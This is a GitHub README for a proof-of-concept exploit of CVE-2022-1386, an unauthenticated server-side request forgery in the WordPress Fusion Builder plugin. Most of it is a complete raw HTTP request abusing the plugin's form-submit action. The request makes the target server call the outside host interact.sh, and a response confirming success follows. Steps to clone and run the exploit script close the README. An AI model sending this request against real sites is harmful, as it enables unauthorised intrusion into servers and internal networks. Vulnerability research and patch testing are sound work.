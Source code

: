 # CVE-2022-1386 - Fusion Builder < 3.6.2 - Unauthenticated SSRF

![screenshot.png](screenshot.png)

## Description

Fusion Builder is a WordPress plugin that allows users to create and edit pages using a drag-and-drop interface. It is vulnerable to an unauthenticated SSRF that allows an attacker to read any file on the server.

## Proof of Concept
Request:
```http request
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Accept-Language: en-US,en;q=0.5
X-Requested-With: XMLHttpRequest
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Content-Type: multipart/form-data; boundary=734fc2bb05c3cc70e9fce6e1957ee204
Content-Length: 1172

--734fc2bb05c3cc70e9fce6e1957ee204
Content-Disposition: form-data; name="formData"

email=example%40example.com&fusion_privacy_store_ip_ua=false&fusion_privacy_expiration_interval=48&privacy_expiration_action=ignore&fusion-form-nonce-0=9ae1cc329c&fusion-fields-hold-private-data=
--734fc2bb05c3cc70e9fce6e1957ee204
Content-Disposition: form-data; name="action"

fusion_form_submit_form_to_url
--734fc2bb05c3cc70e9fce6e1957ee204
Content-Disposition: form-data; name="fusion_form_nonce"

9ae1cc329c
--734fc2bb05c3cc70e9fce6e1957ee204
Content-Disposition: form-data; name="form_id"

0
--734fc2bb05c3cc70e9fce6e1957ee204
Content-Disposition: form-data; name="post_id"

0
--734fc2bb05c3cc70e9fce6e1957ee204
Content-Disposition: form-data; name="field_labels"

{"email":"Email address"}
--734fc2bb05c3cc70e9fce6e1957ee204
Content-Disposition: form-data; name="hidden_field_names"

[]
--734fc2bb05c3cc70e9fce6e1957ee204
Content-Disposition: form-data; name="fusionAction"

http://interact.sh/
--734fc2bb05c3cc70e9fce6e1957ee204
Content-Disposition: form-data; name="fusionActionMethod"

GET
--734fc2bb05c3cc70e9fce6e1957ee204--
 
```
Response:
```http request
HTTP/1.1 200 OK
Date: Mon, 25 Oct 2021 15:59:00 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.4.3
Content-Type: text/html; charset=UTF-8
Vary: Accept-Encoding

{"status":"success", "info":"<h1> Interactsh Server <\/h1>"}
```

## Usage

```bash
git clone https://github.com/ardzz/CVE-2022-1386
cd CVE-2022-1386
pip install -r requirements.txt
python3 cve-2022-1386.py
```

## References
- https://wpscan.com/vulnerability/bf7034ab-24c4-461f-a709-3f73988b536b
- https://sploitus.com/exploit?id=WPEX-ID:BF7034AB-24C4-461F-A709-3F73988B536B
